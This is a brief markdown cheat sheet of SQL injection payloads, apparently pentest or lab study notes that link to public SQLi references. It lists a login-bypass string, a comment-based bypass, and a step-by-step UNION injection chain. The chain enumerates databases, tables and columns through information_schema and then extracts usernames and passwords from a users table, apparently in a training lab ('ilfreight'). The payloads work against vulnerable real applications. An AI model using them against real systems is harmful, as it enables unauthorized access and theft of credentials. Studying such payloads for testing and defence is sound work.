





# SQLi

https://tib3rius.com/sqli
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Authentication bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

```sql
tom' or '1'='1
```

### Comments

```bash
'or id=5)#
```


## Union

```sql
' order by 4-- -
```

```sql
test'union select 1,2,3,4-- -
```



```sql
test'union select 1,2,3,schema_name from information_schema.schemata-- -
```



```sql
test'union select 1,2,3,table_name from information_schema.tables where table_schema = 'ilfreight'-- -
```



```sql
test'union select 1,2,3,column_name from information_schema.columns where table_name = 'users'-- -
```



```sql
test'union select 1,2,username,password from ilfreight.users-- -
```


